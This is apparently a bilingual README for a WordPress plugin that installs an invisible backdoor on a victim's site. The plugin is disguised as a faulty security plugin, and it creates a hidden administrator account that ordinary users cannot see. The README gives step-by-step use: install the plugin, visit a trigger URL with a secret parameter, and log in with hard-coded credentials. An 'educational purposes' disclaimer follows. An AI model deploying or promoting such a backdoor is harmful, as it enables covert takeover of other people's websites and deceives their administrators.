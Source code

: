This WordPress plugin allows you to create an invisible backdoor on the victim's installation.
Disguised as a faulty security plugin, the administrator account generated as well as the plugin will not be listed and will be invisible to the eyes of regular users.

**1 - Install the extension on the victim's installation and activate it.**
**2 - Visit this URL to create the admin account "example.com?5394552785=BACKDOOR".**
**3 - Login : Hacked_By_LESiO**
**4 - Password : 1TSN0TWYR3VLPV55M0RD**
Congratulations, you are admin

> I am in no way responsible for your actions with this program. This program is shared with you for educational purposes. Use it with care and do not use it for malicious purposes.

-------------------------------------------------------------------------------------

Cette extension WordPress vous permet de créer une backdoor invisible sur l'installation de la victime.
Déguisé en extension de sécurité défaillante, le compte administrateur généré ainsi que l'extension ne seront pas répertoriés et seront invisibles aux yeux d'utilisateurs classiques.

**1 - Installez l'extension sur l'installation de la victime et activez-la.**
**2 - Visitez cette URL pour créer le compte administrateur "example.com?5394552785=BACKDOOR".**
**3 - Nom d'utilisateur : Hacked_By_LESiO**
**4 - Mot de passe : 1TSN0TWYR3VLPV55M0RD**
Félicitations, vous êtes administrateur

> Je ne suis en aucun cas responsable de vos actions avec ce programme. Ce programme est partagé avec vous à des fins éducatives. Utilisez-le avec précaution et ne l'utilisez pas à des fins malveillantes.
